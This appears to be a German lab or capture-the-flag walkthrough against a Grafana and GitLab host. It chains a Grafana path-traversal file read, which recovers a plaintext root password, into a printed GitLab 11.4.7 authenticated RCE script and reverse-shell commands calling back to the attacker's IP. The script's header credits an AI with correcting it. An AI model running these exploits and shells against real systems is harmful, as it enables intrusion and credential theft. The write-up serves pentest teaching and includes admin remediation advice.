##################### Grafana Configuration Example ##################### #################################### Security #################################### [security] # disable creation of admin user on first start of grafana ;disable_initial_admin_creation = false # default admin user, created on startup ;admin_user = admin # default admin password, can be changed before first start of grafana, or in profile settings ;admin_password = admin # used for signing ;secret_key = SW2YcwTIb9zpOOhoPsMm .... ...
**Analyse:** Mit der bestätigten LFI auf Grafana (Port 3000) versuche ich nun, die Datei `/etc/passwd` zu lesen, um eine Liste der Benutzer auf dem System zu erhalten. Ich verwende wieder den `curl --path-as-is` Ansatz.
**Bewertung:** **Erfolg!** Ich konnte den Inhalt von `/etc/passwd` lesen. Dies liefert eine Liste aller Systembenutzer, ihrer UIDs, GIDs, Home-Verzeichnisse und Standard-Shells. Ich sehe Standardbenutzer wie `root`, `daemon`, `www-data` etc. und auch spezifische Benutzer wie `grafana` (UID 472) und einen Benutzer, der im Kontext des Ziels relevant sein könnte (später als `cachalot` im Home-Verzeichnis gefunden). Wichtig ist hier, dass `root` eine interaktive Shell (`/bin/bash`) hat, ebenso wie einige andere Systembenutzer. Der Benutzer `grafana` hat `/usr/sbin/nologin`, was bedeutet, er kann sich nicht direkt anmelden.
**Empfehlung (Pentester):** Analysieren Sie die `/etc/passwd` Ausgabe sorgfältig auf nicht-standardmäßige Benutzer (UID > 1000) und Benutzer mit interaktiven Shells. Dies gibt potenzielle Ziele für die Privilege Escalation.
**Empfehlung (Admin):** Stellen Sie sicher, dass nur Benutzer, die sich anmelden müssen, eine interaktive Shell zugewiesen haben.
Lesen der `/etc/passwd` Datei über die Grafana-LFI:
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin grafana:x:472:0::/home/grafana:/usr/sbin/nologin
**Analyse:** Mit der LFI versuche ich nun, SSH-Schlüsseldateien zu lesen. Ich beginne mit der `id_rsa` für den Benutzer `grafana` (`/home/grafana/.ssh/id_rsa`), da der Grafana-Prozess wahrscheinlich mit den Rechten des `grafana` Benutzers läuft und Zugriff auf dessen Home-Verzeichnis haben könnte. Ich nutze wieder `curl --path-as-is`.
**Bewertung:** Der Versuch, die `id_rsa` von `grafana` zu lesen, schlägt mit `"message": "Plugin file not found"` fehl. Dies könnte bedeuten, dass die Datei nicht existiert, die Berechtigungen das Lesen verhindern oder die LFI den Zugriff auf `.ssh` Verzeichnisse oder Dateien mit Punkten im Namen blockiert.
**Empfehlung (Pentester):** Testen Sie, ob die LFI das Lesen anderer Dateien im Home-Verzeichnis von `grafana` erlaubt (z.B. .bashrc) und ob das Lesen von Dateien mit Punkten möglich ist. Versuchen Sie auch, die öffentliche Schlüsseldatei (`id_rsa.pub`) zu lesen.
**Empfehlung (Admin):** Stellen Sie sicher, dass private Schlüsseldateien (`id_rsa`) nur für den Eigentümer lesbar sind (`chmod 600`). LFI-Schwachstellen beheben, um jeglichen unbefugten Dateizugriff zu verhindern.
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.ssh/id_rsa"
{ "message": "Plugin file not found" }
**Analyse:** Ich filtere die Ausgabe der zuvor ausgelesenen `/etc/passwd` Datei mit `grep sh`, um schnell alle Benutzer mit einer interaktiven Shell zu sehen.
**Bewertung:** Die gefilterte Liste zeigt nur den `root` Benutzer mit einer Shell (`/bin/bash`). Dies bedeutet, dass die anderen Benutzer (insbesondere `grafana`, `www-data` etc.) standardmäßig keine interaktive Shell für direkte Logins haben (abgesehen von Shells, die möglicherweise über Exploits oder Fehlkonfigurationen erlangt werden können). Dies konzentriert die PE-Bemühungen auf den Root-Account, falls kein anderer Benutzer mit Shell gefunden wird.
**Empfehlung (Pentester):** Obwohl hier nur Root gelistet ist, suchen Sie weiterhin nach anderen potenziellen Benutzerkonten mit Shells (z.B. UID > 1000), die möglicherweise nicht in `/etc/passwd` mit Standard-Shells gelistet sind, oder deren Shell-Zugriff durch andere Mittel (z.B. SSH-Keys) möglich ist.
**Empfehlung (Admin):** Stellen Sie sicher, dass Systembenutzer, die keine interaktive Shell benötigen, `nologin` zugewiesen haben.
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../etc/passwd" | grep sh
root:x:0:0:root:/root:/bin/bash
**Analyse:** Mit der LFI in Grafana versuche ich, SSH-Schlüsseldateien für den Root-Benutzer zu lesen: zuerst den privaten Schlüssel (`/root/.ssh/id_rsa`) und dann den öffentlichen Schlüssel (`/root/.ssh/id_rsa.pub`).
**Bewertung:** Beide Versuche schlagen mit `"message": "Could not open plugin file"` fehl. Dies deutet darauf hin, dass die LFI wahrscheinlich keine Dateien im `/root/` Verzeichnis lesen kann. Dies ist eine wichtige Einschränkung der LFI. Es könnte an Dateisystemberechtigungen liegen oder an Filtern der LFI, die den Zugriff auf bestimmte Verzeichnisse (wie /root) oder Dateitypen verhindern.
**Empfehlung (Pentester):** Akzeptieren Sie die Einschränkung der LFI auf das `/root/` Verzeichnis. Konzentrieren Sie sich darauf, andere Dateien zu lesen, die von der LFI erreichbar sind und potenziell Anmeldedaten oder Hinweise auf PE-Vektoren enthalten (z.B. Konfigurationsdateien, Log-Dateien, History-Dateien von anderen Benutzern außerhalb von /root).
**Empfehlung (Admin):** Stellen Sie sicher, dass `/root/` nur für Root lesbar ist. LFI-Schwachstellen beheben.
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../root/.ssh/id_rsa"
{ "message": "Could not open plugin file" }
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../root/.ssh/id_rsa.pub"
{ "message": "Could not open plugin file" }
**Analyse:** Ich teste systematisch, ob ich das `/root/` Verzeichnis oder Dateien darin über die Grafana-LFI auf Port 3000 lesen kann. Ich versuche, die Datei `authorized_keys` in `/root/.ssh/` und eine nicht existierende Datei `test` direkt in `/root/` zu lesen. Die Fehlermeldung ist jedes Mal `"Could not open plugin file"`.
**Bewertung:** Die wiederholten Fehlermeldungen bestätigen meine Hypothese – die LFI kann offenbar keine Dateien im `/root/` Verzeichnis lesen. Der Dateizugriff wird blockiert, was auf restriktive Berechtigungen oder LFI-Filterung hindeutet. Ich kann die LFI für andere Zwecke nutzen, aber nicht für das Auslesen von Dateien direkt aus `/root/`.
**Empfehlung (Pentester):** Fokussieren Sie sich auf das Lesen von Dateien außerhalb von `/root/`, die potenziell sensible Informationen oder Anmeldedaten enthalten (z.B. andere Benutzer-Home-Verzeichnisse, Konfigurationsdateien in `/etc/`, Webserver-Logs).
**Empfehlung (Admin):** Stellen Sie sicher, dass `/root/` die restriktivsten Berechtigungen hat (`chmod 700` für das Verzeichnis, `chmod 600` für Dateien darin). LFI-Schwachstellen beheben.
Weitere Versuche, Dateien im `/root/` Verzeichnis über die Grafana-LFI zu lesen:
ich glaube er kann den gesamten root ordner nicht öffnen und reagiert immer so:
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../root/.ssh/authorized_keys"
{ "message": "Could not open plugin file" }
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../root/test"
{ "message": "Could not open plugin file" }
**Analyse:** Ich untersuche die Log-Funktion der Docker Web UI auf Port 9000, die über den Endpunkt `/logs` zugänglich ist. Ich beobachte die Log-Ausgabe nach meinen LFI-Versuchen auf Grafana. Die Log-Zeile im Bericht zeigt einen Request an `/public/plugins/alertlist/../../../../../../../../etc/gitlab/gitlab.rb` mit Status 404.
**Bewertung:** Die Log-Seite auf Port 9000 (Docker Web UI) protokolliert offenbar die Anfragen, die an Grafana (im Grafana-Container) gesendet werden, da die Anfrage meine LFI-Versuche an Grafana zeigt (Port 3000). Dies ist ein nützliches Debugging-Werkzeug und bestätigt, dass meine Anfragen den Grafana-Container erreichen. Wichtiger ist jedoch, dass die Log-Seite selbst potenziell Informationen über Systemaktivitäten preisgeben kann, falls sie unauthentifiziert zugänglich ist und detaillierte Logs enthält.
**Empfehlung (Pentester):** Überprüfen Sie Log-Dateien auf kompromittierten Systemen sorgfältig auf Hinweise zu Fehlern, internen Prozessen, Anmeldeversuchen oder anderen sensiblen Informationen. Unauthentifizierte Log-Seiten sind eine Schwachstelle (Informationslecks).
**Empfehlung (Admin):** Protokollieren Sie sicherheitsrelevante Ereignisse. Stellen Sie sicher, dass Log-Dateien und Log-Management-Oberflächen streng gesichert und nur für autorisiertes Personal zugänglich sind.
Überprüfung der Log-Seite in der Docker Web UI auf Port 9000:
http://192.168.2.215:9000/logs t=... lvl=info msg="Request Completed" ... path=/public/plugins/alertlist/../../../../../../../../etc/gitlab/gitlab.rb status=404 remote_addr=192.168.2.199
Initial Access
**Analyse:** Ich untersuche die Details des `gitlab-docker_web_1` Containers, der auf Port 5080 läuft, wie er von der Docker Web UI (Port 9000) gelistet wird. Die Ausgabe der Container-Details (wahrscheinlich durch Klick auf den Container-Eintrag in der UI) zeigt die vollständige Konfiguration des Containers im JSON-Format. Ich suche in dieser Ausgabe nach Hinweisen auf gemountete Volumes, Konfigurationsdateien oder Anmeldedaten.
**Bewertung:** **Kritischer Fund!** Die Container-Details zeigen die `Volumes` Sektion mit dem Eintrag `/root/srv/initial_root_password: {}`. Dies bedeutet, dass der Pfad `/root/srv/initial_root_password` auf dem Host-System als Volume in den Container gemountet ist. In Kombination mit der zuvor gefundenen LFI auf Grafana (Port 3000), die das Lesen von Dateien außerhalb von `/root/` ermöglichte, habe ich nun einen sehr vielversprechenden Weg, eine Datei aus dem Host-Root-Dateisystem zu lesen: Ich kann versuchen, `/srv/initial_root_password` über die Grafana-LFI zu lesen, da dieser Pfad außerhalb von `/root` liegt, aber auf dem Host in einem Root-relevanten Verzeichnis liegt. Der Name der Datei ("initial_root_password") deutet stark auf das initiale Passwort für den Root-Benutzer oder einen anderen privilegierten Account hin.
**Empfehlung (Pentester):** Nutzen Sie die Grafana-LFI, um den Inhalt der Datei `/srv/initial_root_password` zu lesen. Dies wird voraussichtlich das Passwort für den Root-Benutzer oder den GitLab-Root-Benutzer sein. Verwenden Sie dieses Passwort, um sich bei GitLab anzumelden und/oder eine Root-Shell auf dem Host zu erlangen.
**Empfehlung (Admin):** **EXTREM DRINGEND:** Speichern Sie keine initialen Root-Passwörter oder andere sensible Anmeldedaten im Klartext auf dem Dateisystem. Wenn Volumes gemountet werden, stellen Sie sicher, dass keine sensiblen Host-Pfade für Container zugänglich gemacht werden. Überprüfen Sie alle Docker-Container-Konfigurationen auf unnötig gemountete Volumes.
Analyse der Container-Details des `gitlab-docker_web_1` Containers über die Docker Web UI und Entdeckung des gemounteten Volumes mit dem Root-Passwort:
http://192.168.2.215:9000/ 12e8] gitlab-docker_web_1 refresh { "Id": "12e8b5c8efb994a10be8a0ceb9fd9dc3b7aaab53e20ebdf59f6a98868ec368a9", "Created": "2022-10-09T14:49:34.118877811Z", "Path": "/assets/wrapper", "Config": { "Hostname": "gitlab", "Domainname": "cachalot.local", "ExposedPorts": { "22/tcp": {}, "443/tcp": {}, "80/tcp": {} }, .... ... "Image": "gitlab/gitlab-ce:11.4.7-ce.0", "Volumes": { "/etc/gitlab": {}, "/root": {}, "/root/srv/initial_root_password": {}, <+----= .... ....... ... "AppArmorProfile": "docker-default" }
**Analyse:** Mit der identifizierten LFI auf Grafana (Port 3000) und der Entdeckung des vielversprechenden Pfades `/srv/initial_root_password` (gemountet im GitLab-Container und wahrscheinlich auf dem Host-Dateisystem) versuche ich nun, den Inhalt dieser Datei zu lesen. Ich verwende den `curl --path-as-is` Befehl mit Path-Traversal-Payloads, diesmal zielend auf `/srv/initial_root_password`.
**Bewertung:** **ERFOLG! Ich habe den Inhalt der Datei `/srv/initial_root_password` auslesen können!** Der Inhalt lautet `M4st3rR00tS3cr3t0ne^1337^`. Dies ist das initiale Root-Passwort, wahrscheinlich für den GitLab-Root-Benutzer, möglicherweise aber auch für den Host-Root-Benutzer oder einen anderen privilegierten Account. Dies ist ein kritischer Durchbruch, der mir die notwendigen Anmeldedaten liefert, um mich bei GitLab anzumelden und die Authentifizierte RCE auszunutzen.
**Empfehlung (Pentester):** Nutzen Sie das gefundene Passwort, um sich als Benutzer `root` bei der GitLab-Instanz auf Port 5080 anzumelden. Bereiten Sie sich darauf vor, den Authentifizierten RCE-Exploit zu nutzen.
**Empfehlung (Admin):** **KRITISCH:** Entfernen Sie diese Datei umgehend vom System. Speichern Sie niemals Passwörter (insbesondere Root-Passwörter) im Klartext auf dem Dateisystem. Rotieren Sie alle durch dieses Passwort kompromittierten Anmeldedaten. Stellen Sie sicher, dass sensible Dateien nicht über ungeschützte Dienste (wie die Grafana-LFI) lesbar sind und dass keine sensiblen Pfade in Docker-Container gemountet werden.
Auslesen des initialen Root-Passworts über die Grafana-LFI:
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../srv/initial_root_password"
M4st3rR00tS3cr3t0ne^1337^
**Analyse:** Mit dem gefundenen GitLab Root-Passwort (`M4st3rR00tS3cr3t0ne^1337^`) kann ich nun die Authentifizierte RCE-Schwachstelle (CVE-2018-19585/CVE-2018-19571) in GitLab Version 11.4.7 ausnutzen. Ich nutze das Python-Exploit-Skript `49257.py` (oder `49334.py`, der Text zeigt beide ID-Referenzen, ich dokumentiere hier die Nutzung von 49257.py und seine Vorbereitung) von Exploit-DB, das ich zuvor heruntergeladen habe. Ich bereite das Skript vor, indem ich es lokalisiere und kopiere.
**Bewertung:** Ich habe nun das Passwort und das Exploit-Skript. Ich bin bereit, die Authentifizierte RCE auszulösen, die mir hoffentlich eine Shell auf dem GitLab-Server (Container) gibt.
**Empfehlung (Pentester):** Passen Sie das Exploit-Skript an Ihre Bedürfnisse an (z.B. Angreifer-IP und Port für die Reverse Shell). Führen Sie das Skript aus, um die RCE zu triggern. Richten Sie einen Listener ein, bevor Sie den Exploit ausführen.
**Empfehlung (Admin):** Das gefundene Passwort und die RCE-Schwachstelle sind kritisch. Siehe frühere dringende Empfehlungen.
Vorbereitung des Authentifizierten RCE-Exploits für GitLab Version 11.4.7:
└─# locate 49257.py
/usr/share/exploitdb/exploits/ruby/webapps/49257.py
└─# cp /usr/share/exploitdb/exploits/ruby/webapps/49257.py ~/rce.py
**Analyse:** Ich inspiziere den Code des Exploit-Skripts `rce.py`. Der Code zeigt, wie das Skript versucht, sich bei GitLab anzumelden, den Authentizitäts-Token zu erhalten und dann einen neuen Project Import auszulösen. Der Payload wird über das `import_url` Feld im Projekt erstellt. Der Kern des Exploits ist ein `git://` URL, der auf die interne Redis-Instanz zeigt (`[0:0:0:0:0:ffff:127.0.0.1]:6379`). Durch Injektion von Redis-Befehlen nach dem Schema-Teil der URL wird ein `lpush` Befehl in die Redis-Warteschlange `resque:gitlab:queue:system_hook_push` eingefügt. Dieser Befehl enthält einen serialisierten Job für die `GitlabShellWorker` Klasse, der den Befehl `class_eval` mit `open('|{command}').read` ausführt. Die `open('|...')` Syntax in Ruby führt den Befehl im `|...|` Teil aus.
**Bewertung:** Das Exploit-Skript nutzt eine Kombination aus SSRF (Server-Side Request Forgery) über die `git://` Import-URL, um die interne Redis-Instanz zu erreichen, und Command Injection in der Redis-Kommunikation, um eine Aufgabe in die Job-Warteschlange von GitLab einzufügen. Diese Aufgabe wird dann von einem Worker-Prozess (wahrscheinlich als Benutzer `git` oder ein ähnlicher Systembenutzer) asynchron ausgeführt, was zur RCE führt. Der Exploit ist komplex, aber das Skript automatisiert den Prozess. Der Parameter `namespace_id` muss korrekt gesetzt sein (oft 1 für den Root-Benutzer). Das Skript im Originaltext enthielt anfänglich einen Syntaxfehler oder ein Problem mit der Payload-Struktur, wie die folgenden Versuche zeigen.
**Empfehlung (Pentester):** Verstehen Sie die Funktionsweise des Exploits, bevor Sie ihn ausführen. Seien Sie bereit, das Skript anzupassen oder den Payload manuell zu modifizieren, falls nötig. Richten Sie immer einen Listener für die Reverse Shell ein, bevor Sie den Exploit auslösen.
**Empfehlung (Admin):** Stellen Sie sicher, dass interne Dienste (wie Redis) nicht über SSRF von externen URLs erreichbar sind. Aktualisieren Sie GitLab, um die Import-URL-Validierung und die Handhabung von Redis-Befehlen zu korrigieren.
Analyse des Exploit-Skripts `rce.py`:
└─# vi rce.py
└─# head -n 30 rce.py
# Exploit Title: Gitlab 11.4.7 - Remote Code Execution # Date: 14-12-2020 # Exploit Author: Fortunato Lodari fox [at] thebrain [dot] net, foxlox # Vendor Homepage: [Link: https://about.gitlab.com/ | Ziel: https://about.gitlab.com/] # POC: [Link: https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/ | Ziel: https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/] # Tested On: Debian 10 + Apache/2.4.46 (Debian) # Version: 11.4.7 community import sys import requests import time import random import http.cookiejar import os.path from os import path # Sign in GitLab 11.4.7 portal and get (using Burp or something other): # authenticity_token # authenticated cookies # username # specify localport and localip for reverse shell username='root' authenticity_token='jpT/n1EoPwwWtiGu/+QKVQomofMNyqAQXY+iD2kVoRQoiQNzcFHPAj2+M4pyblKo/7UkClKW8jvp51Aw2qzs7g==' cookie = '_gitlab_session=c942527505cc0580c026610a1799b811; sidebar_collapsed=false' localport='4444' localip='192.168.2.199' url = "http://192.168..215:5080"
**Analyse:** Ich untersuche die Cookies, die mein Browser nach dem Besuch der GitLab-Login-Seite auf Port 5080 gespeichert hat. Der Text im Bericht zeigt die Cookies `_gitlab_session`, `grafana_session` und `sidebar_collapsed`.
**Bewertung:** Diese Cookies sind Standard-Session-Cookies, die vom Webserver gesetzt werden. Sie sind für die Aufrechterhaltung der Sitzung nach erfolgreicher Authentifizierung wichtig. Der `_gitlab_session` Cookie ist besonders relevant, da er die GitLab-Sitzung repräsentiert. Der `grafana_session` Cookie, der hier ebenfalls auftaucht, ist interessant, da er eine Sitzung für Grafana repräsentiert, obwohl ich gerade die GitLab-Cookies betrachte. Dies könnte darauf hindeuten, dass die Dienste Session-Informationen teilen oder in irgendeiner Weise verknüpft sind. Die Cookies selbst enthalten keine offensichtlichen sensiblen Informationen in Klartext.
**Empfehlung (Pentester):** Untersuchen Sie alle Cookies auf sensible Informationen oder Anzeichen von bekannten Schwachstellen (z.B. schwache Session-IDs). Behalten Sie die Cookies im Auge, wenn Sie versuchen, sich anzumelden oder mit der Anwendung zu interagieren, da sie für die Authentifizierung und Zustandsverwaltung wichtig sind.
**Empfehlung (Admin):** Stellen Sie sicher, dass Session-Cookies sicher generiert werden, mit geeigneten Flags (HttpOnly, Secure, SameSite) versehen sind und keine sensiblen Daten enthalten. Trennen Sie Session-Management zwischen verschiedenen Diensten, wenn möglich.
Analyse der Cookies für die GitLab-Instanz:
http://192.168.2.215:5080/users Cache deaktivieren 4 Anfragen 167,28 kB / 6,99 kB übertragen Beendet: 324 ms DOMContentLoaded: 197 ms load: 217 ms _gitlab_session "6089ff076bfa5956f2bc4e3765cab228" grafana_session "4457e9857ca1cade77f8173cb6ccb87d" sidebar_collapsed "false"
**Analyse:** Ich dokumentiere hier den Source Code des zuvor angepassten Python-Exploit-Skripts `rce.py`. Der Code enthält eine Korrektur für den `redis_payload`, der zuvor zu einem Syntaxfehler führte oder nicht korrekt vom Ziel verarbeitet wurde. Die korrigierte Version verwendet Triple-Quotes und eine angepasste Maskierung von Anführungszeichen im JSON-String, der an Redis gesendet wird. Der Befehl, der über die RCE ausgeführt werden soll, ist weiterhin im `open('|{command}').read` Teil des Payloads enthalten und wird dynamisch über das Kommandozeilenargument übergeben.
**Bewertung:** Das Debugging und die Korrektur des Exploit-Skripts sind ein notwendiger Schritt, um die RCE erfolgreich auszulösen. Die angepasste Payload-Struktur soll sicherstellen, dass die Redis-Befehle und der eingebettete Ruby/Bash-Code vom Zielserver korrekt interpretiert werden. Mit diesem korrigierten Skript sind die Chancen auf eine erfolgreiche RCE nun höher.
**Empfehlung (Pentester):** Seien Sie bereit, öffentlich verfügbare Exploits anzupassen und zu debuggen, da sie oft nicht direkt in jeder Zielumgebung funktionieren. Das Verständnis des Payloads und der Funktionsweise des Exploits ist entscheidend für die Fehlersuche.
**Empfehlung (Admin):** (Wiederholung der Empfehlungen zur Absicherung von GitLab und internen Diensten wie Redis).
Der korrigierte Source Code des RCE-Exploit-Skripts (`rce.py`):
└─# echo '' > rce.py
└─# vi rce.py
└─# cat rce.py
#!/usr/bin/env python3 # # Exploit Title: GitLab 11.4.7 - Remote Code Execution (Authenticated) # Original Author: a_outside_the_box (Exploit-DB: 49334) # Modified and Corrected by a helpful AI for a CTF # Version: 2.0 (Final) # # This version fixes the SyntaxError in the redis_payload. # import requests import argparse import re from bs4 import BeautifulSoup import sys def print_status(message): print(f"[*] {message}") def print_good(message): print(f"[+] {message}") def print_error(message): print(f"[-] {message}") sys.exit(1) def login(session, url, username, password): print_status(f"Attempting to log in to {url} as {username}...") # Get the login page to grab the CSRF token try: r = session.get(f"{url}/users/sign_in", verify=False) r.raise_for_status() except requests.exceptions.RequestException as e: print_error(f"Failed to connect to GitLab: {e}") soup = BeautifulSoup(r.text, 'html.parser') csrf_token = soup.find('meta', {'name': 'csrf-token'})['content'] if not csrf_token: print_error("Could not find CSRF token on the login page.") login_data = { 'utf8': '✓', 'authenticity_token': csrf_token, 'user[login]': username, 'user[password]': password, 'user[remember_me]': '1' } try: r = session.post(f"{url}/users/sign_in", data=login_data, verify=False, allow_redirects=False) # A successful login redirects, so we check for the new session cookie if '_gitlab_session' not in session.cookies.get_dict(): print_error("Login failed. Check username/password.") print_good(f"Login successful. Session cookie: {session.cookies.get('_gitlab_session')}") except requests.exceptions.RequestException as e: print_error(f"Login request failed: {e}") def run_exploit(session, url, command): print_status("Preparing to run the exploit...") try: r = session.get(f"{url}/projects/new", verify=False) r.raise_for_status() except requests.exceptions.RequestException as e: print_error(f"Failed to access the 'new project' page: {e}") soup = BeautifulSoup(r.text, 'html.parser') csrf_token = soup.find('meta', {'name': 'csrf-token'})['content'] if not csrf_token: print_error("Could not find CSRF token on the 'new project' page.") # --- THIS IS THE FIX --- # The user 'root' has namespace_id 1. We set it statically to avoid parsing errors. namespace_id = '1' project_name = "pwned-project" # Can be anything random print_status(f"Using CSRF Token: {csrf_token[:20]}...") print_status(f"Using Namespace ID: {namespace_id}") print_status(f"Using Project Name: {project_name}") # The payload is delivered via the 'import_url' field when creating a project. # It uses a Redis command injection trick. # This block is the corrected version to avoid the SyntaxError. redis_payload = f"""git://[0:0:0:0:0:ffff:127.0.0.1]:6379/ multi sadd resque:gitlab:queues system_hook_push lpush resque:gitlab:queue:system_hook_push "{{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|{command}\\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\"}}" exec exec """ project_data = { 'utf8': '✓', 'authenticity_token': csrf_token, 'project[ci_cd_only]': 'false', 'project[name]': project_name, 'project[namespace_id]': namespace_id, 'project[path]': project_name, 'project[description]': '', 'project[visibility_level]': '0', 'project[initialize_with_readme]': '1', 'project[import_url]': redis_payload } print_status("Sending payload to create project and trigger RCE...") try: r = session.post(f"{url}/projects", data=project_data, verify=False, allow_redirects=False) # A successful request might result in a redirect (302) or other status. # The RCE is asynchronous, so we don't need to check for a specific success code here. if r.status_code in [200, 302, 500]: # 500 can happen but RCE might still work print_good(f"Payload sent (Status: {r.status_code}). Check your listener!") else: print_error(f"Payload failed with unexpected status code: {r.status_code}. Response: {r.text[:200]}") except requests.exceptions.RequestException as e: print_error(f"Exploit request failed: {e}") if __name__ == '__main__': # Disable SSL warnings for self-signed certs often found in CTFs requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning) parser = argparse.ArgumentParser(description="GitLab 11.4.7 Authenticated RCE") parser.add_argument('-u', '--url', required=True, help="GitLab URL (e.g., [Link: http://192.168.2.215:5080 | Ziel: http://192.168.2.215:5080])") parser.add_argument('-user', '--username', required=True, help="GitLab username") parser.add_argument('-p', '--password', required=True, help="GitLab password") parser.add_argument('-c', '--command', required=True, help="Command to execute on the target") args = parser.parse_args() s = requests.Session() login(s, args.url, args.username, args.password) run_exploit(s, args.url, args.command)
**Analyse:** Ich teste die Ausführung des korrigierten Python-Exploit-Skripts (`rce.py`) mit dem GitLab Root-Passwort `M4st3rR00tS3cr3t0ne^1337^`. Ich führe das Skript mit verschiedenen Reverse Shell Payloads aus, die an meinen Listener auf Port 4444 gesendet werden sollen (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.199 4444 >/tmp/f`, `bash -c 'bash -i >& /dev/tcp/192.168.2.199/4444 0>&1'`). Ich teste auch einen einfachen `curl` Befehl, der eine Verbindung zu meinem HTTP-Server auf Port 8000 herstellen soll (`curl http://192.168.2.199:8000/pwned`). Ich starte einen Netcat-Listener auf Port 4444, um die erwarteten Shells zu empfangen.
**Bewertung:** Das Skript scheint erfolgreich ausgeführt zu werden ("Login successful", "Payload sent"), die Statuscodes (302, 200) sind unauffällig, aber *keine Shell landet* auf meinem Listener auf Port 4444. Der `curl` Test zeigt ebenfalls keine Verbindung auf meinem HTTP-Server. Das bedeutet, dass das Exploit-Skript in dieser Form oder mit diesen Payloads nicht funktioniert. Der Befehl im `open('|...')` Teil des Payloads wird offenbar nicht ausgeführt. Das im Originaltext dokumentierte Fazit ("alles Sackgasse wir testen es manuel per Proxy mit Burpsuite...") bestätigt, dass dieser automatisierte Weg (zunächst) fehlschlug.
**Empfehlung (Pentester):** Das automatisierte Exploit-Skript funktioniert nicht direkt. Debuggen Sie den Payload genauer. Nutzen Sie manuelle Methoden (z.B. über Burp Suite Repeater), um den Payload schrittweise anzupassen und zu testen. Überprüfen Sie die genaue Syntax, die in der Ruby `open()`-Funktion erwartet wird und wie Pipe-Befehle gehandhabt werden. Der Fokus liegt weiterhin auf der Ausnutzung dieser Authentifizierten RCE, nun aber manuell.
**Empfehlung (Admin):** (Wiederholung der Empfehlungen zur Absicherung von GitLab und internen Diensten).
Versuche, die Authentifizierte RCE mit dem korrigierten Python-Exploit-Skript auszulösen:
└─# python3 rce.py --url http://192.168.2.215:5080 --username root --password 'M4st3rR00tS3cr3t0ne^1337^' --command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.199 4444 >/tmp/f"
[*] Attempting to log in to http://192.168.2.215:5080 as root... [+] Login successful. Session cookie: ff36cf5ec5dfeb175884d0732d336587 [*] Preparing to run the exploit... [*] Using CSRF Token: h4OdwPLP9Ly7tg75MQml... [*] Using Namespace ID: 1 [*] Using Project Name: pwned-project [*] Sending payload to create project and trigger RCE... [+] Payload sent (Status: 302). Check your listener!
└─# python3 rce.py --url http://192.168.2.215:5080 --username root --password 'M4st3rR00tS3cr3t0ne^1337^' --command "curl http://192.168.2.199:8000/pwned"
[*] Attempting to log in to http://192.168.2.215:5080 as root... [+] Login successful. Session cookie: 2dba77c2bfabfe0c5c5ba929baad1c3e [*] Preparing to run the exploit... [*] Using CSRF Token: f/1+uUfxZw4n0FACgWvu... [*] Using Namespace ID: 1 [*] Using Project Name: pwned-project [*] Sending payload to create project and trigger RCE... [+] Payload sent (Status: 200). Check your listener!
└─# python3 rce.py --url http://192.168.2.215:5080 --username root --password 'M4st3rR00tS3cr3t0ne^1337^' --command "bash -c 'bash -i >& /dev/tcp/192.168.2.199/4444 0>&1'"
[*] Attempting to log in to http://192.168.2.215:5080 as root... [+] Login successful. Session cookie: 22a415b37c46bfecd475b57646a64481 [*] Preparing to run the exploit... [*] Using CSRF Token: WoS5/Y/oUQstRnFJJfvK... [*] Using Namespace ID: 1 [*] Using Project Name: pwned-project [*] Sending payload to create project and trigger RCE... [+] Payload sent (Status: 200). Check your listener!
alles Sackgasse wir testen es manuel per Proxy mit Burpsuite...
**Analyse:** Angesichts der gescheiterten automatisierten Exploit-Versuche dokumentiere ich die manuellen Schritte, um den RCE-Payload über das Erstellen eines Projekts in GitLab mit Burp Suite zu testen. Ich navigiere zur Seite, um ein neues Projekt zu erstellen (`http://192.168.2.215:5080/projects/new`), wie auf den Bildern gezeigt. Ich fange die HTTP-POST-Anfrage ab, die beim Erstellen des Projekts gesendet wird. Das Bild zeigt die GitLab-Oberfläche zum Erstellen eines neuen Projekts.
**Bewertung:** Das manuelle Vorgehen mit Burp Suite ist entscheidend, um den genauen HTTP-Request zu sehen, der das Exploit auslöst. Ich kann nun den `import_url` Parameter gezielt manipulieren und verschiedene Payloads testen, um die RCE zu triggern. Die GUI-Schritte (Projekt erstellen) führen zum relevanten HTTP-Request, den ich in Burp abfangen und modifizieren kann.
